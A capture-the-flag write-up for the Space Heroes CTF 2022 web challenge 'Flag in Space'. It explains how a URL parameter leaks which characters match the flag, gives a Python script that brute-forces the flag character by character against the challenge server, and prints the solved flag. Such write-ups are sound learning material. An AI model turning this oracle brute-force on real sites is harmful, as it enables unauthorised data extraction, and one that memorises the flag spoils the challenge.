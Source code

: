 # Space Heroes CTF 2022 - Flag in Space (web)

The challenge provides us with a link.

![Challenge link](./img/chall.png "Challenge link")

Clicking on the link brings us to page with some black squares. 

![Challenge page](./img/chall_page.png "Challenge page")

I noticed that there is a GET parameter called `flag` in the URL. So I tried to put in the flag format `shctf{`, to see what happens. It turns out that the letters are then shown in the black squares.

![Initial testing](./img/test.png "Initial testing")

From this, we can assume that the characters in the `flag` parameter that match the flag will be displayed on the site. Thus, we can try to bruteforce the flag. We start by appending a single character to `shctf{`, trying all possible characters, and then checking whether the website display matches the input. I wrote a [python script](./solve.py) to do so: 

```python
import requests

base_url = "http://172.105.154.14/?flag="
flag = "shctf{"

while len(flag) < 25:
	for guess in range(33, 127):

		nextchar = chr(guess)
		response = requests.get(base_url + flag + nextchar).text

		# get <div> where flag is displayed
		start = response.find("<div id=\"grid\"")

		# extract characters shown
		body = response[start + 16:-7].replace("<div>","").replace("</div>","")
		result = "".join(body.split())

		# check if website output matches input
		if (result == flag + nextchar):
			
			# update flag
			flag += nextchar
			print(flag)
			break
```

Running the script, gives use the flag.

![Flag](./img/flag.png "Flag")
> shctf{2_explor3_fronti3r}